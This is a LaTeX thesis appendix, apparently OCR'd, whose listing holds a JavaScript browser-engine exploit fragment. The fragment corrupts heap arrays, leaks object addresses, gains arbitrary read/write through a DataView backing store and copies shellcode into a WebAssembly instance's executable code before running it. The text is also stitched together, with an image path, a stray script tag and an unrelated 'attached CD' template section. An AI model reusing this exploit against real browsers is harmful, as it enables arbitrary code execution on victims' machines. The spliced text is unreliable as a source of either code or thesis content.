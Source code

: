 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}
\end{document}
